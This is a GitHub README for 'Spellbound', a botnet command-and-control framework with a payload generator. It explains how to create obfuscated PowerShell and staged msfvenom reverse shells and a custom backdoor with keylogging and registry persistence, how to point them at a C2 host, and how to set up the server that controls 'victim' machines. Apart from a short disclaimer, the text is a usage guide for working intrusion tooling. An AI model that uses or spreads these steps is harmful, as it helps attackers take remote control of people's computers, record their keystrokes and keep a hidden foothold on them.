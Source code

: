 # Spellbound
Spellbound is a C2 (Command and Control) framework meant for creating a botnet. Spellbound is created in python and includes a payload generator (spellgen) to send to your target. Spellbound is capable of handling around 65000 bots at a time (depending on the machine).

![1670504818823](https://user-images.githubusercontent.com/88616338/221417940-74bbffa4-9a20-49d2-8f93-36de576d167e.jpg)

# Components

## Spellgen
Spellgen is a payload generator which offers 3 different kinds of payloads:
- Base64 encoded powershell command
- Staged MSFvenom payload
- Spellshell (Custom payload with post-exploitation modules)

To get the help menu for spellgen, you can use the command ```python spellgen.py```
```
Usage: spellgen.py <payload> <IP> <PORT>

        payload: spellshell
                Fully specialized reverse shell with keylogging and persistance capabilities
                Command: whataretheywriting- start writing keystrokes to a file
                Command: persist- add your reverse shell to the startup registry
                Command: spawn- spawn another instance of the reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: powershell
                Base64 encoded fileless powershell reverse shell
                Arguments: <C2C IP> <C2C Port>

        payload: msf
                Standard msfvenom generated reverse shell staged payload
                Arguments: <STAGER IP> <STAGER Port>
                Dependencies: sudo apt-get install gcc-mingw-w64-x86-64 g++-mingw-w64-x86-64 wine64
```

Generating a payload with spellgen is an easy task where you just have to specify the payload type, C2 IP and port.

#### Powershell Payload
The powershell payload is a simple reverse shell encoded in base64 just as an obfuscation tactic. This payload can be run on the victim PC by executing it through powershell or cmd.

#### MSFvenom Payload
This payload is a bit tricky as it is a staged payload. The stager server can be found in spellgen by the name ```spellstager.py```. First, the stager needs to be run with the following command:
```python spellstager.py <IP> <STAGER_PORT> <C2_PORT>```
Then, the payload needs to be generated with the following command:
```python spellgen.py msf <STAGER IP> <STAGER PORT>```
The payload can be executed on the victim PC, which will connect to the stager and share a key, through Diffie Hellman key exchange, which will encrypt the actual reverse shell paylod during transit.

#### Spellshell
Spellshell is a self-developed backdoor with some in-built post-exploitation modules:
- pesistance through the ```persist``` command
- keylogging through the ```whataretheywriting``` command
- nested backdoor creation through the ```spawn``` command

## Spellbound
Spellbound is the actual C2 server, to which all bots connect. This is devloped in python and provides a beautiful web interface with the help of the Flask micro-framework. 

#### Setting it up
- ```git clone https://github.com/dingavinga1/spellbound/```
- ```cd spellbound```
- ```pip install -r requirements.txt```
- ```python app.py```
<br/><br/>
After the above steps, open up localhost in your browser, provide the IP for your listening interface and the port to listen on and your C2 will be ready to accept dem bots! 

# Collaborators 
- [Muhammad Huzaifa](https://github.com/huzaifi0604/)
- [Aisha Irfan](https://github.com/aishairfan/)

# Disclaimer
<b>This program is meant only for educational purposes and red-teaming practices. The authors will not be responsible for any misuse of this program. This program is free for personal and commercial use, provided that due credit is given to this repository and the authors.</b>
